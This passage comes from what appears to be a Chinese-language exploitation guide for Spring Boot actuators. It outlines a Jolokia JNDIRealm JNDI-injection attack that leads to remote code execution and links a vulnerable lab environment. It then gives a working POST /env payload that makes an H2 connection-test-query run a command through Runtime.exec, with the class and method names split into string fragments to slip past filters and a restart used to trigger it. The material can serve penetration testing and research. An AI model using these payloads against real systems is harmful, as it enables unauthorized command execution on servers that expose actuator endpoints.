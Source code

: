 
#### 漏洞原理：

1. 利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
2. 设置 connectionURL 地址为 RMI Service URL
3. 设置 contextFactory 为 RegistryContextFactory
4. 停止 Realm
5. 启动 Realm 以触发指定 RMI 地址的  JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[Yet Another Way to Exploit Spring Boot Actuators via Jolokia](https://static.anquanke.com/download/b/security-geek-2019-q1/article-10.html)



#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```



### 0x06：restart h2 database query RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 存在 `com.h2database.h2` 依赖（版本要求暂未知）



#### 利用方法：

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发



spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```
